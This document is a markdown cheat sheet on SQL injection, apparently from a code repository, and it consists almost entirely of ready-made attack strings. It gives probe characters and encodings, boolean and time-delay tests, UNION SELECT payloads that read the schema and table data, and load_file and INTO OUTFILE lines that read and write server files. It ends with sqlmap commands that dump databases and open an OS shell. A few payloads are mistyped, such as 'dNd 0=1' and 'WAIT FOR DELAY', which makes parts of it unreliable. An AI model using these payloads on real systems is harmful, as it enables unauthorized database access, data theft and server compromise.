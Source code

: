 # SQL injection

The SQL injection is one of the most common code injection technique that aims at getting access to the database. It's possible by improper handling of user input by the application. 

Related to: <br />
-Language: SQL <br />
-Platform: Any (requires interaction with a SQL database) <br />

Types of SQL injection: <br />
1) Error based <br />
2) Boolean based blind <br />
3) Time based blind <br />

Toolset: Burp Suite, SQL Map. <br />

Detection
-----------------------------------------------------------------------------

Detection of Error based SQL injection:
```
'
"
#
;
)
```
Encoding:
```
%27
%22
%23
%3B
```
Multiple encoding:
```
%%2727
%%2222
%%2323
%%3B3B
```
Detection of Boolean based blind SQL injection:<br />
TRUE statements:
```
aNd 1=1
aNd 21=21
anD 1=1;//
orDeR bY 1
```
FALSE statements:
```
dNd 0=1
anD 9=2
anD 57=276;//
ordEr bY 1000000000000
```
Characters to use instead of spaces:
```
+ 
/**/
%20
```
Comments to end the queries:
```
/*
//
#
%23
--
```

Detection of Time based blind:
```
aNd sleep
SLEEP(15)
BENCHMARK(100000000, rand())
WAIT FOR DELAY '00:00:15'
WAIT FOR TIME '00:00:15'
```


Exploitation
-----------------------------------------------------------------------------

General select syntax:
```
UniOn selEct [number of columns] [comment]
```

Example: Assume that there are two columns and the second column can be used to display data from db.
```
Seleting database version:
UniOn selEct 1,version() /*

Database:
UniOn selEct 1,database() /*

Database user:
UniOn selEct 1,user() /*

Database tables:
UniOn selEct 1,table_name frOm information_schema.tables where table_schema = '[database name]' /*

Table Columns:
UniOn selEct 1,column_name frOm information_schema.columns where table_name = '[table name]' /*

Selecting data from table:
UniOn selEct 1,[column name] frOm [table name] /*

Reading files:
UniOn selEct 1,load_file('file location') /*

Writing files:
UniOn selEct null,[file content] inTo outfile '/location/to/write/file/to' /*
```
Notes:<br />
When you executing queries you need to consider encodings.<br />

Example of encoding query to utf8:
```
UniOn select table_name COLLATE utf8_general_ci,table_schema COLLATE utf8_general_ci,'1' from information_schema.tables
```

SQL Map
-----------------------------------------------------------------------------

```
sqlmap -u [url] --- scan the provided url

sqlmap -u [url] —-dbs --- show the databases 

sqlmap -u “url” —-tables -D [database name] --- show all tables from [database name]

sqlmap -u “url” —-columns -T [table name] -D [database name] --- show all columns from [table name] in [database name]

sqlmap -u “url” -T [table name] -D [database name] —-dump --- show all data from [table name] in [database name]

sqlmap -u “url” —-os-shell --- OS shell 

sqlmap -u “url” —-sql-shell --- SQL shell
```

